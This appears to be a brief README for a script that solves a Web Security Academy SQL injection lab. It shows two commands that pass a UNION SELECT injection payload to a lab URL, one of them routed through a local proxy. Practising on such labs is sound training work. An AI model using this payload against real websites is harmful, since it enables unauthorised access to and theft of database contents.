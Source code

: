 # How to run script.py

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT NULL,NULL,NULL--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT NULL,NULL,NULL--" -p 127.0.0.1:8080`
